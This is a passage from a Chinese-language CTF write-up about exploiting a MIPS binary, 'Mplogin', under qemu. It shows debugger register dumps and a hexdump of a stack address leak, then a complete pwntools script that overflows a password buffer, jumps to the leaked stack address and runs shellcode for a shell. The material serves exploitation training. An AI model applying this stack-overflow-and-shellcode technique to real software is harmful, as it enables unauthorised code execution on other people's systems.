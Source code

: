 可以看到FP的值是`0x76ffeea8`，不过这个FP是pwndbg帮我们算出来的，真正的FP寄存器即第30号寄存器其实是s8，即`0x76ffee80`，也可以通过`info reg`指令来观察：

```python
pwndbg> info reg
          zero       at       v0       v1       a0       a1       a2       a3
 R0   00000000 fffffff8 00000025 00000001 767cd144 76ffee38 00000001 00000000 
            t0       t1       t2       t3       t4       t5       t6       t7
 R8   767e61b0 00077cb3 00000000 00000000 767e604c 00000001 0fffffff 0040056e 
            s0       s1       s2       s3       s4       s5       s6       s7
 R16  76806010 004005d8 00000000 00000000 00000000 00000000 00000000 00000000 
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  00000001 76743000 00000000 00000000 00418e50 76ffee80 76ffee80 00400b84 
            sr       lo       hi      bad    cause       pc
      20000010 00000024 00000000 00000000 00000000 00400b88 
           fsr      fir
      00000000 00739300 
```

在qemu测尝试填满缓冲区：即可看到`0x76ffee80`这个地址被泄露出来：

```
➜  qemu-mipsel -g 1234 -L ./ Mplogin  | hexdump -C
00000000  1b 5b 33 33 6d 2d 2d 2d  2d 2d 77 65 31 63 30 6d  |.[33m-----we1c0m|
00000010  65 20 74 30 20 4d 50 20  6c 30 67 31 6e 20 73 37  |e t0 MP l0g1n s7|
00000020  73 74 65 6d 2d 2d 2d 2d  2d 0a 1b 5b 33 34 6d 55  |stem-----..[34mU|
adminaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
00000030  73 65 72 6e 61 6d 65 20  3a 20 43 6f 72 72 65 63  |sername : Correc|
00000040  74 20 6e 61 6d 65 20 3a  20 61 64 6d 69 6e 61 61  |t name : adminaa|
00000050  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
00000060  61 80 ee ff 76 90 0b 40  1b 5b 33 31 6d 50 72 65  |a...v..@.[31mPre|
00000070  5f 50 61 73 73 77 6f 72  64 20 3a 20 50 61 73 73  |_Password : Pass|
```

![image](https://xuanxuanblingbling.github.io/assets/pic/mips/leak.png)

故`sub_400978`的栈溢出，可以通过泄露的栈地址进行利用。由于栈平衡，`sub_400978`和`sub_400840`都是main的同级调用函数，则`0x76ffee80`这个栈地址就是`sub_400978`栈上的返回地址后面，故溢出点返回地址直接填写`0x76ffee80`，后面拼接shellcode即可：

```python
from pwn import *
context(arch='mips',endian='little',log_level='debug')
io = process(["qemu-mipsel","-L","./","./Mplogin"])

# leak stack(old fp)
io.sendafter("name : ","admin".ljust(0x18,'a'))
io.recvuntil("Correct name : ");io.recv(0x18)
stack = u32(io.recv(4))

# stack overflow
io.sendafter("Pre_Password : ","access".ljust(0x14,"2")+p32(0x100))
io.sendafter("Password : ","0123456789".ljust(0x28,"2")+p32(stack)+asm(shellcraft.sh()))
io.interactive()
```
